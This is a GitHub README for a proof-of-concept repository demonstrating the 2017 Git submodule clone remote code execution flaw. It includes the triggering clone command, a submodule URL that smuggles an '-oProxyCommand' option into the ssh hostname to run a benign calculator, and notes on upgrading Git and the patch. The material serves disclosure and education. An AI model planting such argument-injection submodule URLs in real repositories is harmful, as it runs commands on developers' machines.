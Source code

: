 # Git clone RCE PoC repository

This repo is an example of `git clone` vulnerability described in http://blog.recurity-labs.com/2017-08-10/scm-vulns using a git submodule.

To see it in action, simply clone the repo using:
```
git clone https://github.com/disconnect3d/git_clone_rce_calc.git --recursive
```
The recursive part is crucial as git **must** try to clone the malicious git submodule url.
This will launch a `gnome-terminal` on your machine.

### To be safe
**Upgrade your Git to 2.14.1 as that is fixed on that version as stated in [git's release notes](https://raw.githubusercontent.com/git/git/master/Documentation/RelNotes/2.14.1.txt).**

After updating the issue is gone:
```
$ git clone https://github.com/disconnect3d/git_clone_rce_calc.git --recursive
Cloning into 'git_clone_rce_calc'...
remote: Counting objects: 15, done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 15 (delta 3), reused 3 (delta 0), pack-reused 0
Receiving objects: 100% (15/15), done.
Resolving deltas: 100% (3/3), done.
Checking connectivity... done.
Submodule 'git_calc_rce' (ssh://-oProxyCommand=gnome-calculator/wat) registered for path 'git_calc_rce'
Cloning into 'git_calc_rce'...
fatal: strange hostname '-oProxyCommand=gnome-calculator' blocked
fatal: clone of 'ssh://-oProxyCommand=gnome-calculator/wat' into submodule path 'git_calc_rce' failed
```

### Changes that fix the problem

The fix was introcuded with [230ce07d commit id that can be found e.g. in git mirror repo](  https://github.com/git/git/commit/230ce07d134f597a8107d3ed5d76d212ff90db70).

Basically they have [introduced a check](https://github.com/git/git/commit/230ce07d134f597a8107d3ed5d76d212ff90db70#diff-c36199ef0fc86df61570de73eb0fde65R1324) which is called in some places:
```c
int looks_like_command_line_option(const char *str)
 {
 	return str && str[0] == '-';
 }
 ```
